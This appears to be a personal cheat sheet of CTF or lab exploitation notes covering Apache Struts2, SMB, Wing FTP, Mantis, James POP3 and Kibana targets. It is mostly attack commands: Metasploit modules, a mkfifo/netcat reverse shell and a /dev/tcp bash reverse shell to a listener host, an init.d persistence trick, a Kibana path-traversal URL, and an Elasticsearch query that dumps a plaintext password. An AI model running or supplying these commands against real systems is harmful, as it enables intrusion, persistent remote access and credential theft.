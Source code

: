 # Pwn'd
- https://ippsec.rocks/?#
### Apache Struts2
- 80/tcp  open  http    Apache Tomcat/Coyote JSP engine 1.1
- |_http-server-header: Apache-Coyote/1.1
- | http-title: Santa Naughty and Nice Tracker
- USE: 
````
search struts2
exploit(multi/http/struts2_content_type_ognl)
````
- 445/tcp open  miscrosoft-ds
- Run the nmap eternal scripts
- USE:
````
nmap --scripts=smb-vuln* $ip
exploit(windows/smb/ms08_067_netapi)
````
### Wing FTP Server
- 21/tcp open  wingftp
- Gain access to the admin panel
````
search lua
exploit(windows/ftp/wing_ftp_admin_exec)
````
### Mantis Bug Tracker
- 80/tcp  open  http  mantisbt-2.3.0
- CVE:2019-15715 2017-7615
- Mantis Bug Tracker 2.3.0 - Remote Code Execution (Unauthenticated)
- 110/tcp open  POP3 
- James POP3 Server 2.3.2
- https://www.exploit-db.com/exploits/35513
````
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1 | nc 172.16.6.2 3333 >/tmp/f
echo "#!/bin/bash" > /etc/init.d/james
echo "bash -i >& /dev/tcp/172.16.6.2/5555 0>&1" >> /etc/init.d/james
cat /etc/init.d/james
sudo /sbin/reboot
````
- Version: Apache Tomcat/8.0.47
- OS: Microsoft Windows 2008| Vista | 7
- exploit: multi/http/struts2_rest_xstream
- Targeturi: /struts2-rest-showcase/orders/
### Kibana
- 5601 is the elastic search port, 9200 is the api
````
curl -X GET "10.10.15.175:9200/_search?q=password&pretty"                                                                                                                                                                  130 ⨯
{
  "took" : 11,
  "timed_out" : false,
  "_shards" : {
    "total" : 6,
    "successful" : 6,
    "skipped" : 0,
    "failed" : 0
  },
  "hits" : {
    "total" : 1,
    "max_score" : 2.0136302,
    "hits" : [
      {
        "_index" : "messages",
        "_type" : "_doc",
        "_id" : "73",
        "_score" : 2.0136302,
        "_source" : {
          "sender" : "mary",
          "receiver" : "wendy",
          "message" : "hey, can you access my dev account for me. My username is l33tperson and my password is 9Qs58Ol3AXkMWLxiEyUyyf"
````
- If there are log files like on port 8000 which are showing you active kabana logs you can have a LFI vulnerability
- Go to the 5601 port and add this extension `/api/console/api_server?sense_version=@@SENSE_VERSION&apis=../../../../../../.../../../../root.txt`
````
10.10.156.71:5601/api/console/api_server?sense_version=@@SENSE_VERSION&apis=../../../../../../.../../../../root.txt
````
- Then curl the logs and grep for root.txt
````
curl -s http://10.10.31.117:8000/kibana-log.txt | grep "root.txt" 
````
- Also can be used to get a shell in other situations
- https://github.com/mpgn/CVE-2018-17246
